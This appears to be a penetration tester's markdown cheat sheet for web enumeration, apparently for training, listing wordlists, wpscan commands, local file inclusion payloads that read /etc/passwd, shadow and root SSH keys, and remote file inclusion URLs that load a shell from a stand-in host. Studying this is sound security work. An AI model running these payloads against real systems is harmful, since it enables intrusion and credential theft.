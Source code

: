 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#enumeration #web-enumeration
# Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

## Step 2: 

## Common Wordlists to use for Web App Scanning: 

Common Wordlists to use for Web Directory Scanning: 
- /usr/share/wordlists/dirb/common.txt
- /usr/share/wordlists/dirbuster/*.txt
- /usr/share/wordlists/wfuzz/general/*.txt
- /usr/share/seclists/Discovery/Web-Content/
- Assetnote Wordlists: https://wordlists.assetnote.io/
- Jhaddix Content Discovery: https://gist.github.com/jhaddix/b80ea67d85c13206125806f0828f4d10

Common Wordlists to use for User Enumeration Scanning: 
- /usr/share/seclists/Usernames
- /usr/share/wordlists/dirbuster/apache-user-enum-2.0

## Web App Scanners


Wpscan(WordPress Scannner):

- wpscan --url https://megacorpone.com
- wpscan --url https://megacorpone.com --enumerate ap at (All Plugins, All Themes)
- wpscan --url https://megacorpone.com --enumerate u (Usernames)
- wpscan --url https://megacorpone.com --enumerate v



Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster

## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
```

Windows:
```
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
```


## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: 
https://l.avala.mp/?p=241
Backup: https://web.archive.org/web/20210612222732/https://l.avala.mp/?p=241
